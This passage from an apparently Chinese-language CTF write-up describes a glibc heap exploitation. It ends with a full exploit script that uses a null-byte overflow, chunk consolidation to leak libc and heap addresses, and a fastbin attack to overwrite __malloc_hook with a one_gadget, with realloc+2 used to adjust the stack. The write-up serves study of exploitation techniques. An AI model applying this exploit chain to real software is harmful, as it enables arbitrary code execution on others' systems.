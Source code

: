 要使 0x58 的 0 到 0x50 处，只需要少 push 一个值即可

所以在 malloc_hook 处填写为 realloc+2 的地址

![](https://static.hack1s.fun/images/2021/12/09/image-20211209182836478.png)

再运行一下可以看到这里 0x50 就已经是 0 了，满足了 one_gadget 的条件

最后的 exploit

```
chunk_A = malloc(0x88)
chunk_B = malloc(0x208)
chunk_C = malloc(0x88)
chunk_D = malloc(0x88)

free(chunk_B)
edit(chunk_A,"a"*0x88)
# 溢出一个Null Byte

chunk_B1 = malloc(0xf8)
# renmaindering
chunk_B2 = malloc(0xf8)

free(chunk_B1)
# 将B1加入到unsortedbin，从而绕过safe unlink
free(chunk_C)
# 触发consolidate，B、C的空间都加入到unsortedbin

chunk_B1 = malloc(0xf8)
free(chunk_A)
# 将B2的fd、bk变成libc的泄漏地址和堆的泄漏地址

data = read(chunk_B2,16)
libc.address = libc.sym.__malloc_hook - (u64(data[:8])-0x68)
heap = u64(data[8:])
# 计算得到堆地址和libc地址

chunk_A = malloc(0x88)
# 申请回来chunk_A
fast = malloc(0x68)
free(fast)
# 将B2的位置释放为fastbin

edit(chunk_B2, p64(libc.sym.__malloc_hook - 0x23))
# 利用fastbin attack得到malloc_hook写能力
fast = malloc(0x68)

target = malloc(0x68)

one_gadget = 0xd6fb1
edit(target, b'a'*0xb + p64(libc.address+one_gadget) + p64(libc.sym.realloc+2))
# 利用realloc调整栈

```
